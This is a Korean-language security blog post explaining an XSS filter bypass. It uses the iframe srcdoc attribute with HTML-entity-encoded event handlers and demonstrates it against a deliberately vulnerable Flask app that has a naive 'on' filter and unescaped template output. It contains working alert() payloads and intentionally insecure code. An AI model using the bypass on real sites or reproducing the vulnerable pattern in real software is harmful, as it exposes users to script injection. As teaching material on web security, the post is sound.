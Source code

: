 ```yaml
---
title: XSS with srcdoc
date: 2024-03-22
author: glasses96
categories: [WEB]
tags: [XSS]
pin: true
math: true
mermaid: true
---
```


> **HTML5 태그를 통해 Real World에서 발생한 XSS 취약점을 알아봅시다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## srcdoc

\<iframe\> 태그의 <span style="color:#9999FF">srcdoc</span> 속성은 \<iframe\> 요소에 보일 웹 페이지의 HTML 코드를 명시합니다.

`srcdoc 속성이 명시되어 있고 해당 브라우저가 srcdoc 속성을 지원`하면, \<iframe\> 요소의 src 속성값은 `srcdoc 속성값으로 재정의`가 됩니다.

그러나 srcdoc 속성이 명시되어 있지만 해당 브라우저가 srcdoc 속성을 지원하지 않으면, 브라우저는 src 속성에 명시된 파일을 \<iframe\> 요소에 보여줍니다.

### Example CODE

```html

<iframe srcdoc="<p>Hello World!!</p>" src="http://tcpschool.com">
    <p>Hi</p>
</iframe>

```

## How Exploit XSS?
해당 웹에서 기본적인 XSS 구문(`<,>,이벤트핸들러`)는 필터링이 되어있었습니다.  
추가적으로 `<p>`,`<img>`, `<iframe>` 3개의 태그는 가능했고 이벤트 핸들러(hex encoding)를 이용해서 터뜨릴려고 했지만 `&#79`를 넣으면 응답 값에는 &#79 -> o로 변환대지 않고 &#79nerror가 되어 이벤트 핸들러가 먹히지 않았습니다.

그러나 `srcdoc` 속성에 hex encoding을 이용하니 XSS가 가능했습니다.

```html
-> 필터링 <iframe srcdoc="onerror=alert(document.domain)">
-> XSS 가능<iframe srcdoc="<img src=x &#79nerror=alert(document.domain)>"></iframe>
```

## TEST XSS
다음과 같은 코드가 있다고 해봅시다.
`<img>`,`<iframe>` 태그만 되도록해야하지만 이것만 된다고 가정을 하고 내가 입력한 param 변수에 `on` 이라는 문자열이 걸리면 filtered로 됩니다.

```py
from flask import Flask, render_template
import os

app = Flask(__name__)

@app.route('/')
def index():

    param = request.args.get("param","param")
    if "on" in param:
        return "filtered"
    else :
        return render_template('index.html',param=param)



if __name__ == '__main__':
    app.run(port=5000)
```

```html
<!DOCTYPE html>
<head></head>
<body>
    <h1> \{\{param \| safe\}\}</h1>
	\을 안넣으면 코드가 화면에 안보임....

</body>

</html>
```

### STEP 1

`<img src=x onerror=alert(1)>` 을 입력했을 때의 결과입니다.  
필터링 로직을 통과하지 못해 filtered가 출력되었습니다. 

![filtered](/assets/post/56/1.png)

### STEP 2

`<img src=x &#79nerror=alert(1)>` 을 입력했을 때의 결과입니다.  
onerror가 &#79nerror로 그대로 반영되어 이벤트 핸들러로 동작을 하지 않습니다.

![filtered](/assets/post/56/2.png)


### STEP 3

`<iframe srcdoc="<img src=x &#79nerror=alert(1)>"></iframe>` 을 입력했을 때의 결과입니다.  
&#79 -> 대문자(O)로 변환되었고 이벤트 핸들러로 동작을 하게 됩니다.

![filtered](/assets/post/56/3.png)
![filtered](/assets/post/56/4.png)

## 마치며
Hex Encoding이 동작하는지는... 좀 더 공부를 해봐야 할 꺼 같습니다.  
그래도 새로운 공격 페이로드를 찾았다는 점에 기쁩니다.  
정말이지 XSS 우회 기법은 매우 많다는게......
